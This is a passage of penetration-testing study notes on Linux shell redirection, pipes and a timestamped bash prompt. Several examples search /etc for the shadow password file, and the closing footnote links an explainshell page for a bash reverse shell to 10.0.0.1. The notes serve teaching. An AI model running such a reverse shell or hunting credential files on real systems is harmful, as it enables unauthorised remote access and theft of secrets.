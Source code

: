 	find /etc/ -name shadow 2>/dev/null

```text
/etc/shadow
```

#### Redirect STDOUT to a file

	find /etc/ -name shadow 2>/dev/null > results.txt

#### Redirect STDOUT and STDERR to Separate Files

	find /etc/ -name shadow 2> stderr.txt 1> stdout.txt

#### Redirect STDIN

	cat < stdout.txt

#### Redirect STDOUT and Append to a File

	find /etc/ -name passwd >> stdout.txt 2>/dev/null

#### Redirect and pipe

	find /etc/ -name *.conf 2>/dev/null | grep systemd

```text
/etc/systemd/system.conf
/etc/systemd/timesyncd.conf
/etc/systemd/journald.conf
/etc/systemd/user.conf
/etc/systemd/logind.conf
/etc/systemd/resolved.conf
```

	find /etc/ -name *.conf 2>/dev/null | grep systemd | wc -l

```text
7
```

### Create customized bash prompt with greppable time

	cp .bashrc .bashrc.bak
	
	echo 'export PS1="-[\[$(tput sgr0)\]\[\033[38;5;10m\]\d\[$(tput sgr0)\]-\[$(tput sgr0)\]\[\033[38;5;10m\]\t\[$(tput sgr0)\]]-[\[$(tput sgr0)\]\[\033[38;5;214m\]\u\[$(tput sgr0)\]@\[$(tput sgr0)\]\[\033[38;5;196m\]\h\[$(tput sgr0)\]]-\n-[\[$(tput sgr0)\]\[\033[38;5;33m\]\w\[$(tput sgr0)\]]\\$ \[$(tput sgr0)\]"' >> .bashrc

```text
-[Tue Mar 23-00:39:51]-[cry0l1t3@parrot]-
-[~]$ 
```

Another advantage of this is that we can filter out our commands by the `minus` (`-`) at the beginning later in our logs and thus see a list with only the date, time, and command specified.

### Automate script installation


[^1]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261